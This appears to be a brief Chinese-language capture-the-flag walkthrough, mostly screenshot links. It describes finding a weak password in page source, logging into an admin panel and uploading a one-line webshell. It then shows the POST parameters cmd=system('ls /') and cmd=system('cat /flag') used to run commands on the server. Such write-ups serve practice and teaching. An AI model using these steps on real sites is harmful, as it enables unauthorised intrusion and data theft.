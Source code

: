 ![img](./assets/wps231.jpg)

查看源码

发现弱口令密码

![img](./assets/wps232.jpg) 

 

登录进网站后台

 

![img](./assets/wps233.jpg) 

上传文件

上传一句话木马

![img](./assets/wps234.jpg) 

 

![img](./assets/wps235.jpg) 

 

![img](./assets/wps236.jpg) 

检查

![img](./assets/wps237.jpg) 

上传成功

post提交参数

cmd=system('ls /');

![img](./assets/wps238.jpg) 

 

查看flag

cmd=system('cat /flag');

![img](./assets/wps239.jpg) 

 

 